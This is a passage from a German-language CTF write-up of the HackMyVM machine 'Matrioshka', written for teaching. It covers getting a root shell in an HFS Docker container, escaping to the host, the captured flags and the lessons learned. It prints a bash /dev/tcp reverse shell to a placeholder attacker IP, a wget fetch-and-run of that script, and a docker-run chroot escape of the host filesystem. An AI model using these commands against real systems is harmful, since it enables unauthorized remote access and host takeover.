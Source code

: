 ```bash
        Auf matrioshka wurde revshell.sh erstellt: bash -i >& /dev/tcp/ATTACKER_DOCKER_IP/5555 0>&1

        Ein Python HTTP-Server wurde auf matrioshka gestartet: python3 -m http.server 8001.

    Exploit Ausführung: Der HFS-Exploit wurde genutzt, um busybox im Container auszuführen, revshell.sh herunterzuladen (wget MATRIOSHKA_IP:8001/revshell.sh -O /tmp/revshell.sh), ausführbar zu machen und zu starten.

        Ein Listener auf ATTACKER_DOCKER_IP:5555 empfing die Shell.

Wir erhielten eine Shell als root innerhalb des HFS-Docker-Containers (root-39cfe3c81ea8).
Docker Escape zur Host-Root-Kompromittierung

Als Root im HFS-Container wurde festgestellt, dass der Docker-Socket gemountet war oder Docker-Befehle ausgeführt werden konnten.

      
# Im HFS-Container als Root
docker ps # Zeigt laufende Container auf dem Host
docker run -v /:/mnt --rm -it ubuntu:20.04 chroot /mnt bash
 

In der neuen Shell (die Root-Zugriff auf das Host-Dateisystem hat):

      
cd /root
cat root.txt

    

IGNORE_WHEN_COPYING_START
Use code with caution. Bash
IGNORE_WHEN_COPYING_END
Erlangte Flags

    User Flag (user.txt): c8129b0390452d8378535cff76e0dde8

    Root Flag (root.txt): 7f5d6dbbaff0a1fc6d2a5c9160362908

Fazit und Learnings

Matrioshka ist eine lehrreiche Maschine, die mehrere Eskalationspfade kombiniert. Die wichtigsten Learnings umfassen:

    Die Gefahr veralteter WordPress-Plugins (hier wp-automatic und ultimate-member).

    Passwort-Wiederverwendung (DB-Passwort = SSH-Passwort).

    Risiken durch falsch konfigurierte oder veraltete interne Dienste (HFS mit Standard-Credentials und bekannter Schwachstelle).

    Kritische Risiken durch unsichere Docker-Konfigurationen (Zugriff auf Docker-Socket vom Container aus).

Regelmäßige Updates, starke und einzigartige Passwörter sowie eine sichere Konfiguration aller Systemkomponenten, einschließlich Container-Umgebungen, sind unerlässlich.
Disclaimer

Dieses Writeup dient ausschließlich zu Bildungszwecken. Die hier beschriebenen Techniken sollten nur in legalen und autorisierten Umgebungen (wie HackMyVM, CTFs, eigene Testsysteme) angewendet werden. Der Autor übernimmt keine Haftung für Missbrauch.

Autor: DarkSpirit (Dein GitHub Profil-Link)
```